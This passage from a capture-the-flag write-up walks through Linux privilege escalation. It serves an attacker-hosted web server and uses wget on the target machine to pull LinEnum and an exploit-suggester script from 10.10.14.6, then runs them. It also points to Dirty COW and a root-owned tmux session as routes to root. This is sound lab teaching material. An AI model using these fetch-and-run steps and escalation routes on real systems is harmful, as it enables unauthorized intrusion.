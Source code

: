 ## Privilege Escalation <a id="cc00"></a>

Grab the [LinEnum](https://github.com/rebootuser/LinEnum) script if you don’t already have it. In the attack machine, start up a server in the directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine download the script.

```text
wget http://10.10.14.6:5555/LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We get back many results of which two are interesting.

First, it’s running an old version of Ubuntu that is probably vulnerable to [Dirty COW](https://dirtycow.ninja/). Dirty COW is a privilege escalation vulnerability which exploits a race condition in the way the Linux kernel’s memory subsystem handles the copy-on-write \(COW\) breakage of private read-only memory mappings.

![](https://miro.medium.com/max/561/1*BrazHc5GyWfr26QOvRJlaA.png)

Second, there’s an active tmux session that is owned by root.

![](https://miro.medium.com/max/919/1*XfFIN0eDDp1hhhxhygwlrQ.png)

According to the [tmux man page](http://man7.org/linux/man-pages/man1/tmux.1.html):

> tmux is a terminal multiplexer: it enables a number of terminals to be  
> created, accessed, and controlled from a single screen.

It’s essentially a shell that is owned by root! So if we can enter this active tmux session, any command we run there is executed with root privileges. This one I didn’t figure out on my own, I had to use[ ippsec’s help](https://www.youtube.com/watch?v=XYXNvemgJUo).

Alright, so we have two ways of escalating privileges.

**Privilege Escalation \#1: Dirty COW Vulnerability**

To confirm that the target machine is vulnerable to Dirty COW, download the [Linux Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2) script. In the attack machine, start up a server in the directory where the script resides.

```text
python -m SimpleHTTPServer 5555
```

Download the exploit on your target machine.

```text
wget http://10.10.14.6:5555/linux-exploit-suggester-2.pl
```
